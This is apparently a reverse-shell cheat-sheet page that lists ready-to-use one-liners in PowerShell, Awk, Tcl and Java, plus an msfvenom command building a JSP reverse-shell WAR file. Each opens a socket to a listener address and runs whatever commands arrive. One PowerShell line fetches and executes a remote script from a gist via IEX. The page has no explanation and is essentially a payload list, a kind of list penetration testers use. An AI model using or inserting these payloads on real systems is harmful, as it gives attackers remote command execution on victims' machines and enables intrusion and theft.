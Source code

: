 <h3>Powershell:</h3>
<pre id="ps01">powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("127.0.0.1",813);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()</pre>
<pre id="ps02">powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('127.0.0.1',813);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"</pre>
<pre id="ps03">powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')</pre>

<h3>Awk:</h3>
<pre id="awk01">awk 'BEGIN {s = "/inet/tcp/0/127.0.0.1/813"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null</pre>

<h3>TCLsh</h3>
<pre id="tcl01">echo 'set s [socket 127.0.0.1 813];while 42 { puts -nonewline $s "shell>";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | tclsh</pre>

<h3>Java:</h3>
<pre id="java01">r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/127.0.0.1/813;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()</pre>
<pre id="java02">String host="127.0.0.1";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();</pre>
<pre id="java03">Thread thread = new Thread(){
    public void run(){
        // Reverse shell here
    }
}
thread.start();</pre>

<h3>War:</h3>
<pre id="war01">msfvenom -p java/jsp_shell_reverse_tcp LHOST=127.0.0.1 LPORT=813 -f war > reverse.war
strings reverse.war | grep jsp # in order to get the name of the file</pre>
